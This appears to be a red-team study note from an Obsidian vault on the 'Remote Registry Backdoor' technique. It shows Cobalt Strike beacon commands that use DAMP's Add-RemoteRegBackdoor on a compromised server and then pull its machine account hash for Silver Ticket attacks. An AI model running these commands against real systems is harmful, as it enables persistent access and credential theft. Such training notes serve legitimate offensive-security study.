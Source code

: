 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Remote Registry Backdoor]]  
___

## Description:  

The [DAMP](https://github.com/HarmJ0y/DAMP) project can implement host-based DACL backdoors to enable the remote retrieval of secrets from a machine, including SAM and domain cached hashes.

`Add-RemoteRegBackdoor` can be run locally on a compromised machine, or remotely with credentials.

```
beacon> run hostname
srv-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee DEV\bfarmer

ComputerName BackdoorTrustee
------------ ---------------
SRV-2        DEV\bfarmer

```

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv-2

ComputerName MachineAccountHash              
------------ ------------------              
srv-2        5d0d485386727a8a92498a2c188627ec
```

See **Silver Tickets** for why this is useful.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:41 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
